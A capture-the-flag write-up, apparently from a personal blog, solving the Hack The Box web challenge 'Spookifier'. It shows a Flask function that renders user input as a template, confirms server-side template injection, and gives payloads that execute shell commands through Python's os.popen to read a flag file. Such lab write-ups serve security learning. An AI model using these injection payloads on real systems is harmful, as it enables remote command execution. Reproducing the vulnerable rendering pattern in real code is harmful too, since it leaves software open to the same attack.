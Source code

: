 ```yaml
---
title: Spookifer - Hack The Box
date: 2024-10-19
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Spookifier

![Spookifier](/ctf/hack-the-box/challenges/web/spookifier/spookifier.png)

## Challenge Description

In this challenge, we need to exploit a web application called **Spookifier**. The application is a Single Page
Application (SPA), featuring a form in the center of the page where users can submit their new Halloween name. After
submitting the form with the input `Dracula`, the application displays the result with different fonts, as shown below:

![Spookifier result of Dracula input](/ctf/hack-the-box/challenges/web/spookifier/spookifier-result-dracula.png)

## Code Review

Upon inspecting the source code of the application, we discovered that the backend is built using **Flask** in Python.
When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed
as a query parameter (`text`).

The server processes this input by calling a function named `spookify`, which then passes the input to another function
responsible for generating the formatted result. The function `generate_render` generates the final output, and its
implementation is as follows:

```python
def generate_render(converted_fonts):
    result = '''
        <tr>
            <td>{0}</td>
        </tr>
        
        <tr>
            <td>{1}</td>
        </tr>
        
        <tr>
            <td>{2}</td>
        </tr>
        
        <tr>
            <td>{3}</td>
        </tr>
    '''.format(*converted_fonts)
    
    return Template(result).render()
```

The `generate_render` function uses the `Template` class from the **Jinja2** templating engine to render the final
output. This indicates a potential vulnerability, as improper input sanitization can lead to a **Server-Side Template
Injection (SSTI)** attack.

## Proof of Concept (PoC)

To verify the SSTI vulnerability, we can inject a basic payload like `${7*7}` into the `text` parameter. If the
application is vulnerable, it will evaluate the expression and return the result of the calculation.

After injecting the payload, the server responded with the following output:

![Spookifier - POC](/ctf/hack-the-box/challenges/web/spookifier/spookifier-poc-ssti.png)

The result `49` confirms that the application is vulnerable to SSTI.

## Exploitation

Since we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To exploit the SSTI
vulnerability and read the flag, we first need to determine the current working directory by executing the `pwd`
command. We can use the following payload:

```python
${__import__('os').popen('pwd').read()}
```

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt`
file. The following payload reads the content of the file:

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

The result shows the flag:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We successfully retrieved the flag! You can now try this on the actual Hack The Box (HTB) server to obtain the real
flag.

<ChallengeCard
    challengeType="web"
    challengeName="Spookifier"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/413"
/>

## References

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)

